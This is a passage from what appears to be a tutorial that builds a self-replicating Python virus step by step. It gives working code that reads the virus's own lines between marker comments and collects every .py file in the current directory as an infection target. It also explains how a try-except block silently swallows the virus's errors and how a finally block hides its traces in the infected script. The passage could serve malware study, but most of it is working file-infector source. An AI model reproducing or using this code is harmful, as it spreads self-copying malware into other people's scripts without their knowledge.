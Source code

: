 That's it, quite simple uh?

Obviously, everything has been inserted in a `try-except` block, so that to be sure that exceptions on our virus code are trapped and ignored by the `pass` statement in the `except` block.

The `finally` block is the last part of the virus, and its goal is to remove used names from memory so that to be sure to have no impact on how the infected script works.

Okay, now we need to implement the stub functions we have just created! :) 

Let's start with the first one: the `get_virus_code()` function.

To get the current virus code, we will simply read the current script and get what we find between two defined comments.

For example: 

```python
def get_content_of_file(file):
    data = None
    with open(file, "r") as my_file:
        data = my_file.readlines()

    return data

def get_virus_code():

    virus_code_on = False
    virus_code = []

    code = get_content_of_file(__file__)

    for line in code:
        if "# begin-virus\n" in line:
            virus_code_on = True

        if virus_code_on:
            virus_code.append(line)

        if "# end-virus\n" in line:
            virus_code_on = False
            break

    return virus_code
```

Now, let's implement the `find_files_to_infect()` function. Here we will write a simple function that returns all the `*.py` files in the current directory. Easy enough to be tested and... safe enough so as not to damage our current system! :)

```python
import glob

def find_files_to_infect(directory = "."):
    return [file for file in glob.glob("*.py")]
```

